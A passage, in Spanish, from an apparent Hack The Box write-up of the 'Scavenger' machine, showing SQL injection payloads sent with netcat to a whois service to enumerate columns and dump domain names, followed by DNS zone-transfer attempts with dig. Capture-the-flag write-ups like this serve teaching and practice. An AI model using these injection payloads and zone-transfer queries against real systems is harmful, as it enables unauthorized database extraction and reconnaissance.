     ```bash
    nc 10.10.10.155 43
    ') union select column_name,2 from information_schema.columns where table_schema = "whois" and table_name = "customers" limit 0,1#
    #Output
    % This query returned 1 object
    id

    nc 10.10.10.155 43
    ') union select column_name,2 from information_schema.columns where table_schema = "whois" and table_name = "customers" limit 1,1#
    #Output
    % This query returned 1 object
    domain

    nc 10.10.10.155 43
    ') union select column_name,2 from information_schema.columns where table_schema = "whois" and table_name = "customers" limit 2,1#
    #Output
    % This query returned 1 object
    data
    ```

1. Enumerar lo que hay a dentro de la columna domain

    ```bash
    nc 10.10.10.155 43
    ') union select domain,2 from customers#
    #Output
    % This query returned 4 object
    supersechosting.htbjustanotherblog.htbpwnhats.htbrentahacker.htb
    ```

    Aqui tambien se podria hacer un limit 0,1 1,1 etc...


Ya podemos añadir estos dominios en el `/etc/hosts`.

<div class="figure">
<img src="images/scavenger-hosts3.png" alt="hosts despues del sqli" width="90%" />
<p class="caption">(\#fig:unnamed-chunk-14)hosts despues del sqli</p>
</div>

Aqui ya intentamos conectar a estos nuevos dominios con Firefox pero sigue siendo lo mismo. Intentamos hacer nuevamente ataques 
de zonas con estos nuevos dominios

### Ataque de transferencia de zona Part 2 {-}

```bash
dig @10.10.10.155 justanotherblog.htb axfr
dig @10.10.10.155 pwnhats.htb axfr
dig @10.10.10.155 rentahacker.htb axfr
```
